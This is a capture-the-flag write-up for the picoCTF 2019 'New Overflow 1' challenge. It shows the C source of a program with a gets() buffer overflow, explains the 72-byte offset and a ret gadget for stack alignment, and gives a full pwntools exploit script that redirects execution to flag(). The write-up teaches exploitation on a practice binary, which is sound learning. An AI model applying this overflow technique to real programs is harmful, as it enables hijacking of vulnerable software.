

[Back](PicoFrontPage.md)

# New Overflow 1
---

### Intro
* You'll need to understand 64-bit calling conventions for this challenge

### Tools
* GEF-GDB
* Pwntools - Python3
* Ropper

### Source Code

```c
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

### Analysis

Some important points:
* Working with 64-bit which translates to everything being in 8 bytes (64 bits)
* 64-bit programs store arguments in registers, not on the stack (not needed in this question though)

Start off by doing the usual, calculating how many bytes are required to overwrite the instruction pointer (`$rip`) (remember, the registers are 8 bytes now, not 4).

It should come out as 72 bytes to reach the instruction pointer.

Next, we will be searching for an appropriate ROP gadget using `ropper`
ROP gadgets are all series of instructions that conclude with a `ret` instruction.
Command: `ropper -f ./vuln`
To search for specific ROP instructions:
`ropper -f ./vuln --search "Enter instruction here"`
We don't need to store anything inside any instruction so just a normal `ret` instruction will do.

<!-- NewOverflow1Ropper -->


Find out the address of the `flag()` function however you want (e.g., `x flag`, `disas flag`, `info functions`, etc.) and then construct your script as below.

Note: if you try to run it without the gadget, the program will get stuck at the instruction below:

<!-- NewOverflow1movaps -->
.
Since we're working with hexadecimal addresses, this means that the address has to end in a 0.

### Pwntools Script

Here is the script:

```python
from pwn import *

p = process('./vuln') # specifying the process

# variables
ret = 0x04005de	# rop gadget
flag = 0x0400767 # flag function address

# payload, p64() because 64-bit (little-endian)
payload = b'A'*72
payload += p64(ret)
payload += p64(flag)

# receive until character
p.recvuntil(b':')

# send payload as one line
p.sendline(payload)

# to get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[Overflow 2](overflow2writeup.md) | [New Overflow 2](newoverflow2writeup.md)
